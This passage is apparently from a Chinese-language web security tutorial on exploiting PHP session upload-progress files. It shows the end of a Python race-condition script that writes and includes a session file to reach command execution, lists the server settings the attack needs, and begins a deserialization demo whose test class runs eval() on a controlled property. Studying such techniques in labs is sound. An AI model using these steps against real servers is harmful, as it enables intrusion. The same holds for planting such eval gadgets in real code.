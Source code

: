 ```
            print("[+++++++++++++]retry")

    event.clear()

if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write,args=(session,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()

    event.set()
```

利用条件竞态包含到的session文件sess_helloworld的内容：

[![](https://p2.ssl.qhimg.com/t0132d06f1bac38ae01.png)](https://p2.ssl.qhimg.com/t0132d06f1bac38ae01.png)

其中圈中部分是命令执行的结果。

稍微总结一下，这种攻击方式所需的条件有以下几点：

（1）存在文件包含漏洞<br>
（2）开启了session存储机制（`session_start()`或者`session.auto_start`设置为1，或者rewrite开启，并可以上传`.htaccess`）<br>
（3）`session.upload_progress.enabled`必须开启，不过这是默认的设置<br>
（4）`session.use_strict_mode`设置为0,可以控制sess文件名，这也是默认的配置<br>
（5）session文件存储路径已知，默认为`/tmp`或者`/var/lib/php/sessions/`

如果将上面场景中的文件包含漏洞代码换成存在可反序列化利用的类，那么就可以造成反序列化漏洞，不过这里要利用上传文件名来构造payload，并且要利用php`session`序列化处理机制的差异性，所以还要用到<br>`ini_set('session.serialize_handler', 'php_serialize')`或<br>
者`session_start(['serialize_handler'=&gt;'php_serialize'])`或者利用`.htaccess`覆盖`session.serialize_handler`配置项。另外，如果反序列化的类未注册或不在当前访问的php代码的作用域内，那么就要考虑使用内置类或者利用`unserialize_callback_func`配置项来加载类。

这里先简单演示要反序列化类已注册的例子，后面介绍到其他配置项时再介绍类未注册的情况：

测试环境：

目标网站文件结构：

```
/var/www/html/
|-- index.php
|
|-- upload
|       |-- test2.php
|       |-- .htaccess
```

index.php文件内容：

```
&lt;?php
ini_set('session.serialize_handler','php');
session_start();
class MyTest`{`
    public $str;
    public function __destruct()`{`
        eval($this-&gt;str);
    `}`
`}`
```
